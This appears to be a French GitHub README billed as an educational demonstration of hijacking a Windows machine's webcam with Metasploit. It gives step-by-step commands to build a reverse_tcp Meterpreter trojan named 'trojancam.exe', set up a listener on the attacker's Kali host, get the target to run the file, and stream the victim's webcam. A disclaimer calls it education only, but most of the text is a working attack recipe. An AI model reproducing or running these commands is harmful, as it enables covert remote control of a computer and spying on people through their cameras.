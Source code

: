 # 🎯 Contrôle de Webcam via Meterpreter – Démonstration Éducative

Ce projet démontre comment établir une session Meterpreter sur une machine Windows cible afin d'accéder à sa webcam. Il est destiné à des fins éducatives et de sensibilisation à la cybersécurité.

## 🧰 Outils utilisés

- Metasploit Framework (préinstallé sur Kali Linux)​
- Python 3 (pour l'envoi du payload)​
- Wireshark (optionnel, pour l'analyse du trafic réseau)​
- Ettercap (optionnel, pour les attaques de type Man-in-the-Middle)

## ⚠️ Avertissement
Ce projet est destiné à des fins éducatives uniquement. L'utilisation de ces techniques sans le consentement explicite des parties concernées est illégale et contraire à l'éthique. L'auteur décline toute responsabilité en cas d'utilisation abusive.

## 🚀 Étapes pour reproduire l'attaque

### 1. Générer le Payload avec Metasploit
Utiliser ```msfvenom``` pour créer un exécutable malveillant qui établira une connexion inversée vers votre machine Kali :
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST={ip locale attaquant} LPORT=4444 -f exe -o trojancam.exe
```
- LHOST : adresse IP de votre machine Kali​
- LPORT : port d'écoute sur Kali (4444 par défaut)

### 2. Configurer un listener sur Kali (port d'écoute)
Lancer Metasploit et configurer un handler pour écouter les connexions entrantes :
```bash
msfconsole
```
Puis après lancement de Metasploit dans le terminal :
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST {ip locale attaquant}
set LPORT 4444
exploit
```

### 3. Déployer le payload sur la machine cible
Transférer trojancam.exe sur la machine cible et l'exécuter. Cela établira une session Meterpreter entre la cible et la machine Kali.

### 4. Accéder à la Webcam de la Cible
Une fois la session Meterpreter établie, activer la webcam de la cible :​
```bash
webcam_stream
```
Cela ouvrira une interface web diffusant le flux vidéo de la webcam de la cible.

## Crédits

###[iciamyplant/camera_hack](https://github.com/iciamyplant/camera_hack)
Répertoire initial qui m'a permis de comprendre le fonctionnement de Metasploit.
